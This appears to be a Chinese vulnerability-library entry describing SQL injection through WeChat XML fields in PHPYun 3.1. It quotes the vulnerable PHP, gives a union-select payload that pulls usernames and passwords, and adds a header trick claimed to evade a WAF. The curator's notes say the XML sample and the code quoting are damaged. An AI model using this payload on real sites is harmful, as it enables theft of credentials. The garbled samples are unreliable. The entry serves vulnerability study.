




# PHPYun 微信XML字段进入SQL的注入

## 条目说明

- 对象与具体问题：PHPYun；微信XML字段进入SQL的注入
- 版本、配置及部署条件：3.1 build14061；微信接口与MySQL
- 认证与权限前提：正文注册登录，是否必要未说明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 标题XML注入易误解为XXE，代码实际是FromUserName/wxid拼SQL且未展示实体声明
- XML样例丢失所有子元素标签，无法对应FromUserName/MsgType/EventKey；源码转义及链接字符串破坏
- Content-type XML不保证绕过WAF；把phypyun_member首条视为管理员无角色证据
- 应补实际POST端点、鉴权、完整请求与响应，原截图未视检

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

一、漏洞简介
------------

函数过滤不严谨，用户POST过去的内容没有进行任何过滤，导致攻击者可以利用XML实体进行注入，从而获取数据库敏感信息

二、漏洞影响
------------

3.1 build14061

三、复现过程
------------

#### 漏洞分析

本次漏洞文件位于 `weixin/model/index.class.php` ，代码如下：

private function responseMsg() { \$postStr =
\$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\];

    if (!empty($postStr)){

                 $postObj = simplexml_load_string($postStr, 'SimpleXMLElement', LIBXML_NOCDATA);
                  $fromUsername = $postObj->FromUserName;
                  $toUsername = $postObj->ToUserName;
                  $keyword = trim($postObj->Content);
                  $time = time();
                  $textTpl = "<xml>
         <![CDATA[%s]]>
         <![CDATA[%s]]>
         %s
         <![CDATA[%s]]>
         <![CDATA[%s]]>
         0
         </xml>";
      if(!empty( $keyword ))
                  {
                  $msgType = "text";
                   $contentStr = "Welcome to wechat world!";
                   $resultStr = sprintf($textTpl, $fromUsername, $toUsername, $time, $msgType, $contentStr);
                   echo $resultStr;
                  }else{
                   echo "Input something...";
                  }

          }else {
           echo "";
           exit;
          }
      }

这里将\$postStr = \$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\]，通过
simplexml\_load\_string解析后的内容，将其直接带入了\$textTpl。

然而\$postStr = \$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\]
，直接获取了POST过来的XML内容，没有经过任何处理，并在最后将其输出。
if(\$MsgType==\'event\') { \$MsgEvent = \$postObj-\>Event; if
(\$MsgEvent==\'subscribe\') { \$centerStr =
\"\<!\[CDATA\[欢迎您关注\".iconv(\'gbk\',\'utf-8\',\$this-\>config\[\'sy\_webname\'\]).\"！/n
1：您可以直接回复关键字如【销售】、【南京 销售】、【南京 销售
XX公司】查找您想要的职位/n绑定您的账户体验更多精彩功能/n感谢您的关注！\]\]\>\";
\$this-\>MsgType = \'text\';

      }elseif ($MsgEvent=='CLICK')
      {
       $EventKey = $postObj->EventKey;
       if($EventKey=='我的帐号'){
        $centerStr = $this->bindUser($fromUsername);

       }elseif($EventKey=='我的消息')
       {
        $centerStr = $this->myMsg($fromUsername);
       }elseif($EventKey=='面试邀请')
       {
        $centerStr = $this->Audition($fromUsername);

       }elseif($EventKey=='简历查看')
       {

        $centerStr = $this->lookResume($fromUsername);

       }elseif($EventKey=='刷新简历')
       {

        $centerStr = $this->refResume($fromUsername);

从上述代码可以看出来，当满足那上面的条件后都会进入不同的相应的函数，但是都会进入一个名为`isBind`函数。

接下来追踪isBind函数：

private function isBind(\$wxid=\'\') {

    if($wxid)
    {
     $User = $this->obj->DB_select_once("member","`wxid`='".$wxid."'","`uid`,`username`");
    }
    if($User['uid']>0)
    {
     $User['bindtype'] = '1';
     $User['cenetrTpl'] = "<![CDATA[您的".iconv('gbk','utf-8',$this->config['sy_webname'])."帐号：".$User['username']."已成功绑定！ /n/n/n 您也可以config['sy_weburl']."/wap/index.php?m=login&wxid=".$wxid."/">点击这里进行解绑或绑定其他帐号]]>";

    }else{

     $Token = $this->getToken();
     $Url = 'https://api.weixin.qq.com/cgi-bin/user/info?access_token='.$Token.'&openid='.$wxid.'&lang=zh_CN';
     $CurlReturn  = $this->CurlPost($Url);
     $UserInfo    = json_decode($CurlReturn);

     $wxid        = $wxid;
     $wxname      = $UserInfo->nickname;
     $this->config['token_time'] = time();

     $User['cenetrTpl'] = '<![CDATA[您还没有绑定帐号，config['sy_weburl'].'/wap/index.php?m=login&wxid='.$wxid.'">点击这里进行绑定!]]>';
    }

    return $User;

    }

可以看到，从始至终wxid变量始终没有经过任何过滤，在第一行的`$wxid`就是我们传进来的FromUserName的值，可以直接进入SQL语句，进行任意注入。

因此我们可以针对其构造Payload，内容如下：

一般来说，我们只需要将Payload以POST形式的数据发出去，就可以成功的获取数据库敏感信息，但是服务器如果有WAF，提交的恶意数据必然会被拦截，因此，我们需要修改HTTP头，伪装成XML就可以不受到WAF的拦截：

    Content-type:text/xml;charset=utf-8

#### 漏洞复现

我们首先打开目标站点，点击网页左侧注册按钮，首先注册一个账号：

这个时候已经是登录状态，我们按`F9` 调出 `Hack Bar`
的界面，点击`Enable Post data` ，将Payload写入输入框，如下图所示：

##### payload文件:

###### 注:payload文件内容需手动输入相应位置

    <?xml version="1.0" encoding="utf-8"?>
      <xml>
        1111
        1111' and 1=2 union select 1,(select concat(username,password) from phpyun_member limit 0,1)#
        1402550611
        event
        CLICK
        我的账号
        0
      </xml>

接下来还需要修改HTTP头，伪装成XML，点击浏览器上方工具栏，打开`Tamper Data`
，点击启动。

现在前提工作已经做好，接下来重新访问网站，Tamper Data
就会抓取到数据包，再对数据包进行更改，操作如图：

然后点击确定就可以将构造好的数据包发出去：

成功获取管理员账号密码。

参考链接
--------

> <https://blog.csdn.net/whatiwhere/article/details/84862236>
